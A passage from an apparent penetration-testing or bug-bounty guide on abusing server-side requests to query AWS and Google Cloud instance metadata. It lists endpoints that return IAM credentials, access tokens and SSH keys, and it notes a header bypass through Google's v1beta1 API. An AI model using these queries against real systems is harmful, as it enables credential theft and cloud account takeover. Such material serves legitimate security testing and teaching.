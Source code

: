 ### Querying AWS EC2 Metadata

If a company is hosting its infrastructure on Amazon EC2, you can query various instance metadata about the host using the endpoints at

```
http://169.254.169.254/latest/meta-data/
```

These endpoints reveal information such as API keys, AWS S3 tokens, and passwords. [Here](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) is the complete documentation from Amazon.

Here are a few especially useful ones to go after first:

```
-   <http://169.254.169.254/latest/meta-data/> returns the list of available metadata that you can query.
-   <http://169.254.169.254/latest/meta-data/local-hostname/> returns the internal hostname used by the host.
-   <http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME> returns the security credentials of that role.
-   <http://169.254.169.254/latest/dynamic/instance-identity/document> reveals the private IP address of the current instance.
-   <http://169.254.169.254/latest/user-data/> returns user data on the current instance.
```

### Querying Google Cloud Metadata

If the company uses Google Cloud, you could try to query Google Instance Metadata API instead.

Google implements some additional security measures for their API endpoints --- Querying Google Cloud Metadata APIv1 requires special headers:

```
"Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"
```

But this protection can be easily bypassed because most endpoints accessible through APIv1 can be accessed via the API v1beta1 endpoints instead. And API v1beta1 does not have the same header requirements. [Here's](https://cloud.google.com/compute/docs/storing-retrieving-metadata) the full documentation of the API from Google.

Here are a few critical pieces of information to go after first:

```
-   <http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token> returns the access token of the default account on the instance.
-   <http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key> returns public SSH keys that can connect to other instances in this project.
```

Amazon and Google aren't the only web services that provide metadata APIs. However, these two have quite a large market share so chances are the company that you are testing is on one of these platforms. If not, [here's](https://gist.github.com/BuffaloWill/fa96693af67e3a3dd3fb) a list of other cloud metadata services and things you can try.

## Using What You've Got
